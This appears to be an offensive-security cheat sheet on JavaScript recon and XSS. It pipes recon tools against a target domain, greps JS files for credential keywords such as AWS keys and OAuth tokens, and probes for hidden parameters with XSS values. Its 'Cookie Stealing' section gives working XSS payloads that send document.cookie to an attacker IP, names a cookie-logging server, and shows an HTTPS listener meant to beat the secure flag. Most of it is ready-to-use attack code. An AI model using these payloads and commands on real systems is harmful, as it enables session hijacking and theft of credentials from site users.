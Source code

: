 # JavaScript

## Find JavaScript files by gau and httpx

* [gau](https://github.com/lc/gau)
* [httpx](https://github.com/projectdiscovery/httpx)
```bash
echo target.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'

```


## Find and Extract JS file
```bash
# method 1
waybackurls target.com | grep "\\.js" | xargs -n1 -I@ curl -k @ | tee -a content.txt

# method 2
subfinder -d target.com | httpx -mc 200 | tee subdomains.txt && cat subdomains.txt | waybackurls | httpx -mc 200 | grep .js | tee js.txt

```


## Extract API endpoints from JavaScript files
```bash
cat file.js | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u

```

## Searching in JavaScript files
```bash
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret" /path/to/directory/*.js

```
> Make sure to replace `/path/to/directory` with the actual path to the directory where your .js files are located. The command will recursively search for the specified keywords in all .js files within that directory.



## Find hidden GET parameters in JavaScript files
Here’s an interesting tip for finding hidden parameters by analyzing javascript files:

1. Scour javascript files for variable names, e.g.:
  `var test = "xxx"`

2. Try each of them as a GET parameter to uncover hidden parameters, e.g.:
  `https://example.com/?test=”xsstest`

**This often results in XSS!**
```bash
assetfinder target.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done

```


## Cookie Stealing
(Note: `HttpOnly` should not be enabled/present in cookie header)

**1. Classic way**
```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>

```
* **<img> Tag and Without the Infinite Loop**

This one works and will only steal the cookie once.
```javascript
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">

```
* **<img> Tag Instead of <script> Tags**
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log.
```javascript
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

```

* ***Run the Cookie Stealer Python Script***

You'll need a place to capture the stolen cookies. [lnxg33k](https://github.com/lnxg33k) has written an excellent Python script called [XSS-cookie-stealer.py](https://github.com/Mehdi0x90/Scripts/blob/main/Python/XSS-cookie-stealer.py). Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.
```bash
# Run script
python XSS-cookie-stealer.py

# The resulting output, at minimum, will be this
Started http server


```

**2. Bypassing secure flag protection**
* Generating certificate
```bash
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes

```
* Creating a HTTPS server
```python
#!/usr/bin/python3
import http.server, ssl
server_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem')
"""ssl_version=ssl.PROTOCOL_TLSv1_2)
"""
httpd.serve_forever()

```
* Via XHR
```javascript
var xhr=new XMLHttpRequest(); 
xhr.open("GET", "https://192.168.0.18/?"+document.cookie, true); 
xhr.send();

```




